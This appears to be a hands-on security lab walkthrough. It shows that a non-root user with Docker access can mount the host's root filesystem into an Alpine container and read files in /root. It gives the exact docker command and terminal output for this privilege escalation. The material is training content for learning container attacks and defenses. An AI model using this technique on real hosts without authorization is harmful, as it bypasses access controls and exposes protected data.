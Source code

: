 ## Authentication Attacks against Host

###### A `non-root user` with access to docker can gain access to root filesystem of the host machine.

##### Step 1:
* Open Terminal

	![](img/Open-Terminal.png)

##### Step 2:
*  **cd** into  `Labs/3.0.0-Container-Attacks/3.1.0`

    ```commandline
    cd Labs/3.0.0-Container-Attacks/3.1.0
    ```

##### Step 3:
* Run `sudo su` to become root user.

    ```commandline
      root@we45:~/Labs/3.0.0-Container-Attacks/3.1.0# sudo su
      root@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0#
    ```
##### Step 4:
* Create a `secret.txt` file inside `/root/` directory.

    ```commandline
    root@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0# touch /root/secret.txt
    root@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0#
    ```
##### Step 5:
* Open `secret.txt` and write some secret in it.

    **Note:** 
    1. `esc+i` to insert character into the file,
    2. `esc+:+wq` to save and exit from the file.

    ```commandline
    root@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0# vim /root/secret.txt
    root@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0#
    ```
    
        
##### Step 6:   
* Run `sudo su user` login as a normal user.

    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.1.0# sudo su user
    user@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0$
    ```
##### Step 7:   
* Run `cat /root/secret.txt` read the content of secret.txt file.

    ```commandline
    user@we45:/home/we45/Labs/3.0.0-Container-Attacks/3.1.0$ cat /root/secret.txt
    cat: /root/secret.txt: Permission denied
    ```
##### Step 8: 
* Run `docker run -ti -v /:/hostFS/ alpine` as `docker-user`(non-root user)
    ```commandline
    root@we45:~/Labs/3.0.0-Container-Attacks/3.1.0# docker run -ti -v /:/hostFS/ alpine
    / # 
    
    ```

##### Step 9:
* Run `cd /hostFS/root/` to access the toot directory.

    ```commandline
    / # cd /hostFS/root/
    /hostFS/root # 
    ```
    
##### Step 10:  
* Run `ls` to check the secret.txt file inside a container.

    ```commandline
    /hostFS/root # ls
    secret.txt
    ``` 
    
##### Step 11:
* Run `cat secret.txt` to view the content of the file.

```commandline
/hostFS/root # cat secret.txt
secret

``` 

**Note** : Now the docker-user has the privilege to view the root user data.
